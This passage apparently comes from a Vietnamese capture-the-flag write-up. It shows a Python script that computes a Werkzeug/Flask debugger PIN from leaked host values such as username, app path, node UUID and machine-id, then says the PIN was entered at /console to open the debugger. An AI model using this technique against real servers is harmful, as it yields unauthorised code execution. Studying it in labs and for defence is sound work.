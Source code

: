 ```python
   rv =None
   if rv is None:
	   for group_size in 5, 4, 3:
		   if len(num) % group_size == 0:
			   rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
							 for x in range(0, len(num), group_size))
			   break
	   else:
		   rv = num

   print(rv)

if __name__ == '__main__':

   usernames = ['w1ll14m']
   modnames = ['flask.app']
   appnames = ['wsgi_app', 'Flask']
   flaskpaths = ['/usr/lib/python3/dist-packages/flask/app.py']
   nodeuuids = ['52240203779']
   machineids = ['ca07cc8b33b044adb73f8b86f4c51bf6session-3.scope']

   # Generate all possible combinations of values
   combinations = itertools.product(usernames, modnames, appnames, flaskpaths, nodeuuids, machineids)

   # Iterate over the combinations and call the gen() function for each one
   for combo in combinations:
	   username, modname, appname, flaskpath, nodeuuid, machineid = combo
	   print('==========================================================================')
	   gen_sha1(username, modname, appname, flaskpath, nodeuuid, machineid)
	   print(f'{combo}')
	   print('==========================================================================')
```
- Kết quả khi chạy file gen
![](Pasted%20image%2020230831205911.png)
- Truy cập vào route `/console` nhập PIN => ta đã truy cập được vào debugger console
![](./images/Pasted%20image%2020230831210221.png)
